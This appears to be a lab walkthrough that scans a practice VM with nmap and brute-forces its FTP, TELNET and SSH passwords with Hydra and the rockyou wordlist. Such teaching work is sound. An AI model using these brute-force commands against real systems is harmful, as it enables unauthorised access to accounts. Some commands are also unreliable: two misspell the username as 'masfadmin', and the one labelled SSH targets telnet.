# Network Protocol Vulnerability Lab Walkthrough

## A. Objective

The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. You will also analyze the security of these protocols and propose mitigation strategies.

## B. Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames
**Objective**: Identify potential usernames for brute force attacks.

**Steps**:
1. **Scan the Target VM**: We first performed an `nmap` scan to identify open ports for FTP, SSH, TELNET, and HTTP (ports 21, 22, 23, and 80).
   - Example `nmap` command:
```bash
     nmap -sV -p 21,22,23,80 192.168.X.X
```
![image](https://github.com/user-attachments/assets/ba7a1c88-d02e-4cb1-89cc-0327be8a80ab)

![Screenshot 2025-04-10 185403](https://github.com/user-attachments/assets/509e08b0-6fcf-4b6e-b6ca-29bda5de624e)

### 2. Perform Brute Force Attacks

#### 2.1 FTP, TELNET, and SSH

**Assumed Username**: Based on enumeration or hints from the VM, we assumed the username is `msfadmin`.

**Tool Used**: Hydra  
**Wordlist Used**: `/usr/share/wordlists/rockyou.txt`

**Commands Used**:

- **FTP**:
  ```bash
  hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.X.X
  ```
- **TELNET**:
  ```bash
  hydra -l masfadmin -P /usr/share/wordlists/rockyou.txt telnet://192.168.X.X
  ```
- **SSH**:
  ```bash
  hydra -l masfadmin -P /usr/share/wordlists/rockyou.txt telnet://192.168.X.X
  ```
